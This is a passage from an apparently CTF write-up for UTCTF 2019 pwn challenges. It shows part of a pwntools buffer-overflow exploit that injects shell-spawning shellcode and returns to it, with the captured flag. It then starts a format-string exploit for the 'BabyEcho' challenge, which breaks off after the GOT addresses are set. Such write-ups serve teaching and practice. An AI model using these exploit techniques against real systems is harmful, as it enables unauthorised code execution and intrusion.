 ```python
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)
else:
  sh = remote('stack.overflow.fail', 9000)

name_addr = 0x601080

sh.sendlineafter('?\n', asm(shellcraft.amd64.linux.sh()))

sh.sendlineafter(': ', '+')

sh.sendlineafter(': ', '1')

payload = 'a'*(0x90-1)+'+'+p64(name_addr)*2

sh.sendlineafter(': ', payload)

sh.interactive()
```

flag: `utflag{0h_n0_i_f0rg0t_t0_carry_the_return}`

# BabyEcho - 700pts

## Problem

I found this weird echo server. Can you find a vulnerability?

`nc stack.overflow.fail 9002`

by jitterbug_gang

[pwnable](/blog/2019-03-11-utctf-writeup/BabyEcho/pwnable)

## Solution

Standard format string attack. The script is pretty self explanatory:

```python
from pwn import *
import sys
argv = sys.argv

DEBUG = True
BINARY = './pwnable'

context.binary = BINARY

if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)
else:
  sh = remote('stack.overflow.fail', 9002)

printf_got = 0x804a010
exit_got = 0x804a01c
fgets_got = 0x804a014

```